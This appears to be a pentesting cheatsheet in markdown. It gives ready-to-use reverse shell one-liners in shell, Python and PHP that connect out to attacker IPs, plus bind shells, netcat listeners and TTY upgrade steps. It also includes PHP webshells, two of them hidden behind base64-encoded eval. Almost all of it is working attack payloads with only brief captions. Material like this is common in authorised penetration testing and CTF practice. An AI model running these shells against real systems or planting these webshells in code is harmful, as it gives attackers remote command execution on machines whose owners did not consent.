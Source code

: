 # Shell Cheatsheet

## Reverse Shell

### Shell

Using FIFO

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

```
nc -e /bin/sh 10.0.0.1 1234
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


### PHP

Minimal webshell (`?cmd=ls`)

```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Decodes the Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code ((link)[https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/])
```
<?php
eval(base64_decode("c3lzdGVtKCdscyAtbGEnKTsNCg=="));
?>
```

Base64 encoded cmd webshell
```
<?php eval(base64_decode("aWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllO30=")); ?>
```

Reverse shell using a socket
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Bind Shell

### Python

Connect via `nc`:
```
import socket as a; s = a.socket();s.bind(('0.0.0.0',1337));s.listen(1);(r,z) = s.accept();exec(r.recv(999))
```

After connecting upgrade via:
```
import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/sh");s.close()
```


## Listener

### Shell

#### General Listener

Basic Listener, useful with upgrading
```
nc -vvlp 1337
```

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading


### Shell

- Use bash, not zsh
- In reverse shell: Execute bash (for example using the Python method below)
- In reverse shell: `export TERM=xterm-256color`
- Switch to background with CTRL+Z
- Configure local shell: `stty raw -echo`
- Execute `fg`
- In reverse shell: `reset`

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```


## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7dev](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)
- [Shell upgrading](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
